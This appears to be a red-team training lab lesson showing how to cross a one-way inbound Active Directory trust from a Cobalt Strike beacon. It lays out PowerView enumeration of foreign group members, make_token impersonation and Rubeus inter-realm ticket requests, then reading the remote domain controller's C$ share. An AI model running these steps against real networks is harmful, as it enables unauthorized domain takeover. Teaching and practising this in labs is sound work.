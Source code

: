 **dev.cyberbotic.io** has a one-way inbound trust with **subsidiary.external**.

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : subsidiary.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM
```
  
Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

dnshostname           
-----------           
ad.subsidiary.external
```

>  `SharpHound -c DcOnly -d subsidiary.external` will also work.

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external

GroupDomain             : subsidiary.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : subsidiary.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of subsidiary.external. The **MemberName** field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\Subsidiary Admins
```

If this is confusing, this is how it looks from the perspective of the subsidiary.external's domain controller.  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-trusts/subsidiary-foreign-group-member.png)

`Get-NetLocalGroupMember` can enumerate the local group membership of a machine. This shows that `DEV\Subsidiary Admins` is a member of the local Administrators group on the domain controller.

```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external

ComputerName : ad.subsidiary.external
GroupName    : Administrators
MemberName   : DEV\Subsidiary Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True
```

This is a slightly contrived example - you may also enumerate where foreign groups and/or users have been assigned local admin access via Restricted Group by enumerating the GPOs in the foreign domain.

To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, `make_token` is the most straight forward method.

```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

MemberName
----------
jadams

beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/11/2021 18:00:26   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     02/17/2021 18:50:04   Users
          dir     02/19/2021 22:34:47   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 384mb    fil     03/16/2021 10:48:25   pagefile.sys
```

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

Next, request a referral ticket from the current domain, for the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap

[*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```

  

>  Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`. This is the default configuration unless AES has been specifically configured on the trust, so this is not necessary "bad OPSEC".

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

  

Write this base64 encoded ticket to a file on your machine.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

Create a sacrificial logon session and import the ticket.

```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:03:50   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:15:11   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     05/16/2021 11:58:30   Users
          dir     05/16/2021 11:31:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     05/25/2021 08:39:47   pagefile.sys

 beacon> rev2self
```

Foreign Principals can also have DACL abuse primitives, where `DEV\Subsidiary Admins` could have abusable DACLs on principals within the `subsidiary.external` domain.